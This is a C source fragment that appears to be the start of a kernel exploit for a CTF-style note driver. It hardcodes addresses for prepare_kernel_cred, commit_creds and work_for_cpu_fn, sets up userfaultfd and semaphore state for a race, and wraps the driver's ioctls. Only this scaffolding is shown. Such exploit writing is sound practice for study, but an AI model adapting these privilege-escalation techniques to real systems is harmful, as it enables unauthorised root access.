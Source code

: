 ```c

#define DEBUG 1
#include "kernel.h"

size_t WORK_FOR_CPU_FN = 0xffffffff8109eb90;
size_t PREPARE_KERNEL_CRED = 0xffffffff810a9ef0;
size_t COMMIT_CREDS = 0xffffffff810a9b40;

char tmp_buf[0x1000];

sem_t add_sem, edit_sem;

struct Note {
    size_t idx;
    size_t size;
    void *content;
};

struct KNote {
    void* ptr;
    size_t size;
};

struct KNote notes[0x10];

pthread_t monitor_thread, add_thread, edit_thread;
char *uffd_buf;



int fd;

void add(int idx, int size, char *content) {
    struct Note note;
    note.idx = idx;
    note.size = size;
    note.content = content;

    ioctl(fd, 0x100, &note);
}

void delete(int idx) {
    struct Note note;
    note.idx = idx;
    ioctl(fd, 0x200, &note);
}

void edit(int idx, int size, char *content) {
    struct Note note;
    note.idx = idx;
    note.size = size;
    note.content = content;

    ioctl(fd, 0x300, &note);
}

void gift(void *buf) {
    struct Note note = {
        .content = buf
    };
    ioctl(fd, 100, &note);
}

```
